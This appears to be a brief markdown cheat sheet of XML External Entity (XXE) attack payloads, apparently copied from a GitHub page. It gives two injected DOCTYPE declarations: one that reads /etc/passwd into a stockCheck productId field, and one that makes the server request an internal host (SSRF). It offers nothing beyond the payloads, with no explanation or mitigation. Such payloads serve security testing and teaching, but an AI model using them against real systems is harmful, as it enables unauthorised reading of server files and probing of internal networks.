 # XXE
## File Retrieval
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## SSRF
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
